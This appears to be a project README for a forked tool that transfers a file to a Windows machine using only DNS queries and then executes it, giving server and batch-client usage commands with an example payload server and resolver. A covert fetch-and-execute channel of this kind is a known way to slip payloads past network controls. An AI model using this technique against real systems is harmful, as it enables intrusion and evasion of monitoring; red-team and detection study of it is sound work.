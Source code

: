 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

** client\client_batch\runme.bat _payloadserver_ _fileparts_ _public dns server_ **

Example: *client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8*

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:

Daniel Vinakovsky
